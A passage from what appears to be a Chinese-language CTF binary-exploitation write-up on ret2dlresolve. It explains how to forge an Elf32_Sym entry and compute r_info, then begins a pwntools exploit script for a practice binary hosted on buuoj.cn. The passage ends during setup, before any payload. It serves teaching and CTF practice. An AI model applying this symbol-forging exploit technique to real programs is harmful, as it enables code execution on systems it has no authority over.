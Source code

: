 ```c
typedef struct
{
  Elf32_Word    st_name;  // 4字节，这里可以简单计算一下是0x22
  Elf32_Addr    st_value; // 4字节，此处可以看到是0
  Elf32_Word    st_size;  // 4字节, 此处可以看到是0
  unsigned char st_info;  // 1字节，此处是0x12
  unsigned char st_other; // 1字节，此处是0
  Elf32_Section st_shndx; // 2字节，此处是0
}Elf32_Sym;
```

需要注意两点：

- `Elf32_Sym`结构体要求地址对齐。例如我们这里的`Elf32_Sym`是以`0xc`结尾的，那么我们伪造的结构体地址也需要以`0xc`结尾。
- `r_info`计算方式为伪造的结构体基地址减去`dynsym`的基地址来作为下标，左移八位后再与上`0x7`。这里推荐读者想一下而不是直接用，因为非常简单，不难理解。

此外，我们除了直接从`ida`上面看，也仍然可以通过如下方式查看`dynsym`的基地址：

```python
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
```

那么`r_info`如下：

```python
r_info = (((base_addr + 0x20 - dynsym) // 0x10) << 8) | 0x7
```

因此，当前的`exp`如下：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

bss = elf.bss()
base_addr = bss + 0x800
leave_ret = 0x0804915F
start_resolve = 0x8049030
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
```